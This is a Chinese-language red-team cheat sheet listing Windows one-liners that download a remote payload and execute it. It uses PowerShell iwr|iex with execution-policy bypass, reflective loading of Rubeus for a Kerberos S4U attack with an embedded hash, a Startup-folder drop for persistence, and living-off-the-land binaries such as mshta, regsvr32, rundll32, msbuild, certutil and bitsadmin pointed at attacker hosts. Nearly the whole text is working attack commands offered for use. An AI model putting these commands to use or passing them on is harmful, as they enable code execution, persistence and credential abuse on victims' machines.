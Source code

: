 # Windows - 下载和执行方法

## 下载文件的位置

- C:\Users\<用户名>\AppData\Local\Microsoft\Windows\Temporary Internet Files\
- C:\Users\<用户名>\AppData\Local\Microsoft\Windows\INetCache\IE\<子目录>
- C:\Windows\ServiceProfiles\LocalService\AppData\Local\Temp\TfsStore\Tfs_DAV

## PowerShell

从HTTP服务器

```powershell
powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://webserver/payload.ps1')|iex"

# 仅下载
(New-Object System.Net.WebClient).DownloadFile("http://10.10.10.10/PowerUp.ps1", "C:\Windows\Temp\PowerUp.ps1")
Invoke-WebRequest "http://10.10.10.10/binary.exe" -OutFile "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\binary.exe"

# 下载并运行Rubeus，带参数
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.10.10/Rubeus.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[Rubeus.Program]::Main("s4u /user:web01$ /rc4:1d77f43d9604e79e5626c6905705801e /impersonateuser:administrator /msdsspn:cifs/file01 /ptt".Split())

# 从程序集中执行特定方法
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.10.10/lib.dll')
$assem = [System.Reflection.Assembly]::Load($data)
$class = $assem.GetType("ClassLibrary1.Class1")
$method = $class.GetMethod("runner")
$method.Invoke(0, $null)
```

从Webdav服务器

```powershell
powershell -exec bypass -f \\webdavserver\folder\payload.ps1
```

## Cmd

```powershell
cmd.exe /k < \\webdavserver\folder\batchfile.txt
```

## Cscript / Wscript

```powershell
cscript //E:jscript \\webdavserver\folder\payload.txt
```

## Mshta

```powershell
mshta vbscript:Close(Execute("GetObject(""script:http://webserver/payload.sct"")"))
```

```powershell
mshta http://webserver/payload.hta
```

```powershell
mshta \\webdavserver\folder\payload.hta
```

## Rundll32

```powershell
rundll32 \\webdavserver\folder\payload.dll,entrypoint
```

```powershell
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication";o=GetObject("script:http://webserver/payload.sct");window.close();
```

## Regasm / Regsvc @subTee

```powershell
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /u \\webdavserver\folder\payload.dll
```

## Regsvr32 @subTee

```powershell
regsvr32 /u /n /s /i:http://webserver/payload.sct scrobj.dll
```

```powershell
regsvr32 /u /n /s /i:\\webdavserver\folder\payload.sct scrobj.dll
```

## Odbcconf

```powershell
odbcconf /s /a {regsvr \\webdavserver\folder\payload_dll.txt}
```

## Msbuild

```powershell
cmd /V /c "set MB="C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe" & !MB! /noautoresponse /preprocess \\webdavserver\folder\payload.xml > payload.xml & !MB! payload.xml"
```

## Certutil

```powershell
certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.dll & C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil /logfile= /LogToConsole=false /u payload.dll
```

```powershell
certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.exe & payload.exe
```

## Bitsadmin

```powershell
bitsadmin /transfer mydownloadjob /download /priority normal http://<攻击者IP>/xyz.exe C:\\Users\\%USERNAME%\\AppData\\local\\temp\\xyz.exe
```

## 参考资料

- [arno0x0x - Windows oneliners to download remote payload and execute arbitrary code](https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/)
